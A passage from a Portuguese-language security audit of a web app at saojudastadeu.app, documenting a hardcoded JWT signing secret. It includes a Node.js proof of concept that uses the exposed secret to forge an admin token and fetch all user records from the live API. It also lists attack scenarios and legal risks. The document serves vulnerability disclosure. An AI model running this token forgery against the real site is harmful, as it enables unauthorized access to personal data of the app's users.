 #### Comando de Verificação:

```bash
grep -r "sjt-mesc-development-secret-2025" . --include="*.ts"
# Resultado: 3 arquivos
```

#### Impacto Real:

**Atacante pode forjar tokens JWT válidos:**

```javascript
// Código de exploração (Node.js)
const jwt = require('jsonwebtoken');

const fakeToken = jwt.sign(
  {
    id: '00000000-0000-0000-0000-000000000000',
    email: 'hacker@evil.com',
    name: 'Hacker',
    role: 'gestor'  // ← ADMIN TOTAL
  },
  'sjt-mesc-development-secret-2025',  // ← SECRET PÚBLICO
  { expiresIn: '24h' }
);

console.log('Token falsificado:', fakeToken);

// Usar token:
fetch('https://saojudastadeu.app/api/users', {
  headers: {
    'Authorization': `Bearer ${fakeToken}`
  }
})
.then(r => r.json())
.then(users => console.log('TODOS OS USUÁRIOS:', users));
```

#### Cenários de Ataque:

1. **Se `NODE_ENV=development` em produção** → Secret previsível ativo
2. **Se desenvolvedor roda script de teste** → Secret exposto em logs
3. **Se atacante vê código-fonte** → Pode forjar tokens offline

#### Risco Legal:

- ✅ Personificação (crime de falsidade ideológica - Art. 299 CP)
- ✅ Acesso não autorizado (Lei 12.737/2012)
- ✅ LGPD Art. 46 (medidas de segurança inadequadas)

---

### 🔴 CRÍTICO #3: Banco de Dados SQLite Commitado no Git
